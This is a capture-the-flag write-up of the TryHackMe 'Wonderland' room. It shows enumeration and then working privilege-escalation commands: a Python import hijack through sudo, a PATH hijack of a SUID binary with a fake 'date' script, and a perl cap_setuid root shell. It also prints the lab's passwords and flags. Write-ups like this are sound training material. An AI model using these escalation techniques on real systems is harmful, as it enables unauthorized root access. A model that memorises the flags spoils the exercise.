




# Writeup Wonderland TryHackMe

[Room on TryHackMe](https://tryhackme.com/room/wonderland)


### Tools that I used:
- nmap
- gobuster/dirsearch

---
### I started with nmap scan

```
nmap -sS -T4 10.81.138.254
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-25 06:05 CET
Nmap scan report for 10.81.138.254
Host is up (0.046s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```

After that we could do a version scan with nmap, but it was not necessary with this CTF.

```
nmap -sV -sC -T4 -p22,80 10.81.138.254
(...)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
(...)
```

Home page:


Seeing a port 80 open, I ran a directory enumeration using `gobuster` with `-r` flag, as the initial results were returning 301 status codes.

```
gobuster dir -u http://10.81.138.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.81.138.254/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 200) [Size: 153]
/r                    (Status: 200) [Size: 258]
/poem                 (Status: 200) [Size: 1565]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

---
### Down the Rabbit Hole

After reviewing the HTML code, with no luck finding any comments as hints, I decided to take a closer look at images, because I had no clue what to do next.
I downloaded the rabbit image and checked it for hidden data using `steghide` with a blank passphrase:

```
steghide extract -sf white_rabbit_1.jpg
Enter passphrase:
wrote extracted data to "hint.txt".
cat hint.txt
follow the r a b b i t
```

Okay almost the same hint as on the home page (Follow the rabbit), but spaced out.

Coming back to page `/r/` found by `gobuster`:



I tried adding another letter from the hint: `/r/a/`:



The hint now makes more sense, let's try `/r/a/b/b/i/t/`:



We do not se much on the page, but let's look for some comments in HTML code. 
And I have found this:


`<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`


Looks like: login:password
Let's try to log in via `ssh`.

---
### Initial Access - Alice

```
ssh alice@10.81.138.254
(...)
alice@10.81.138.254's password:
(...)
alice@wonderland:~$
```

And it worked, nice. Let's take a closer look.

```
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ cat walrus_and_the_carpenter.py
import random
poem = """The sun was shining on the sea,
Shining with all his might:
(...)
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
    
alice@wonderland:~$ python3 walrus_and_the_carpenter.py
The line was:    Shall we be trotting home again?"
(...)
The line was:
```

With this quick test we now know that we can execute python files.

```
alice@wonderland:~$ find / -perm -4000 2>/dev/null
(...) no python
```

```
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

---
### Library manipulation.

Notice that the script imports the `random` library. When Python imports a module, it checks the current working directory first before checking the standard library paths. We can exploit this by creating a malicious file named `random.py` in the same directory. When the script runs, it will execute our payload instead of the legitimate random library.

```
alice@wonderland:~$ cat random.py
import os
os.system("/bin/bash")
```

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

---
### We successfully escalated to `rabbit`.

```
rabbit@wonderland:~$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ls -la
(...)
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

We have an executable file, let's execute it:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 25 Mar 2026 16:34:21 +0000
Ask very nicely, and I will give you some tea while you wait for him
^C
```

```
rabbit@wonderland:/home/rabbit$ cat ./teaParty
ELF>�@0:@8
          @@@@h���HH==   88�-�=�=hp�-�=�=����DDP�td� � � <<Q�tdR�td�-�=�=/lib64/ld-linux-x86-64.so.2GNUGNUu�2U~4?e|"��mn�A4t
�
�e�mZ <v 5�
            &"libc.so.6setuidputsgetcharsystem__cxa_finalizesetgid__libc_start_mainGLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTableu␦i       N�p�0HH@�?�?�?��?
#H�=��&/�DH�=�/H��/H9�tH��.H��t������H�=Y/H�5R/H)�H��H��H��?H�H��tH��.H����fD���=/u/UH�=�.H��t1�I��^H��H���PTL��H�
                                                                                              H�=�.�-����h�����.]�����{���UH���������������H�=t����H�=�����H�=���������H�=�n����]�f.��AWI��AVI��AUA��ATL�%,UH�-,SL)�H�����H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��Welcome to the tea party!
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)8,�������������T����������<���,zRx
                                                                                     @���+zRx
                                                                                            $����`FJ
K                                                                                                   �?␦;*3$"D���\����PA�C
D|����]B�E�E �E(�H0�H8�G@j8A0A(B BB���p0
4�␦����80
�
 @x�    ������o����o���o����o�=6FVfvH@GCC: (Debian 8.3.0-6) 8.3.0��08�
�

��4 � 0!�=�=�=�?@@@P@␦��
                        ��!07P@F�=mpy�=������4"����=��=��=�� �@�
 ';"crtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.7325__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entryteaParty.c__FRAME_END____init_array_end_DYNAMIC__init_array_start__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE___libc_csu_fini_ITM_deregisterTMCloneTableputs@@GLIBC_2.2.5_edatasystem@@GLIBC_2.2.5__libc_start_main@@GLIBC_2.2.5__data_startgetchar@@GLIBC_2.2.5__gmon_start____dso_handle_IO_stdin_used__libc_csu_init__bss_startmainsetgid@@GLIBC_2.2.5__TMC_END___ITM_registerTMCloneTablesetuid@@GLIBC_2.2.5__cxa_finalize@@GLIBC_2.2.5.symtab.strtab.shstrtab.interp.note.ABI-tag.note.gnu.build-id.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.dynamic.got.plt.data.bss.comment�#�� 1��$D��No
                                                                                                                               V88�^���o��k���o��z�B����  `�����44        �  �� � <�0!������=�-��?��@�@@@P@P�0P0p0`-      �6W'9rabbit@wonderland:/home/rabbit$
```

---
###  Path manipulation

The program calls the date command without using an absolute path (like `/bin/date`). Because it doesn't specify the exact path, the system relies on the environment `$PATH` variable to find the `date` executable.

We can exploit this by creating our own malicious `date` file, making it executable, and adding our current directory to the front of the `$PATH` variable.

```
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rwxr-xr-x 1 rabbit rabbit    25 Mar 25 15:38 date
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
/bin/bash -p
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```

And it worked. Nice!

```
hatter@wonderland:/home/rabbit$ cd ../hatter/
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?

hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter:
Sorry, user hatter may not run sudo on wonderland.
```

---
### Privilege Escalation to root (Capabilities)

Okay, now we need to escalate our privileges further. There is only `root` left for us.

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

The perl binary has the `cap_setuid+ep` capability, which means it is allowed to set the UID to 0 (root). Let's do some research on: `https://gtfobins.org/`



Let's apply that into our shell:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"'
# whoami
root
# cat ./alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# find / -name user.txt 2>/dev/null
/root/user.txt
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

And we got it. Flags obtained.
